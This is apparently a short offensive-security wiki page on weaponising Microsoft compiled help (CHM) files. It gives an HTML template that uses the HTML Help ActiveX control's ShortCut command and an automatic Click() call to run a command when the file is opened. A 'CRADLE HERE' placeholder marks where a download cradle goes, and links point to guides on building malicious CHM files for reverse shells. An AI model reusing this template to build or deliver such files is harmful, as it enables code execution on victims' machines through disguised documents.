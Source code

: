 # ⭕ CHM / HHC

These are Microsoft's online help format, these consist of HTML pages, indexes and other navigation tools. These files are then compressed in a file format called .CHM, also known as compiled CHM. Numerous amount of CHM file programs exist, for example, you could use Microsoft's HTML Help Workshop.

example:

```html
<!DOCTYPE html><html><head><title>Click Me</title><head></head><body>
This is a demo ! <br>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap::shortcut">
<PARAM name="Item1" value='CRADLE HERE'>
<PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

{% embed url="https://rioasmara.com/2020/09/02/create-chm-for-reverse-shell-nishang" %}

{% embed url="https://chamindunayantha.wordpress.com/2021/02/07/creating-a-malicious-chm-file" %}

{% embed url="https://sevenlayers.com/index.php/316-malicious-chm" %}

{% embed url="https://abysssec.com/blog/2008/12/execute-with-chm-file" %}

{% embed url="https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7" %}

## <mark style="color:red;">STC & CHM</mark>

{% embed url="https://www.puckiestyle.nl/sct-chm-exploit" %}


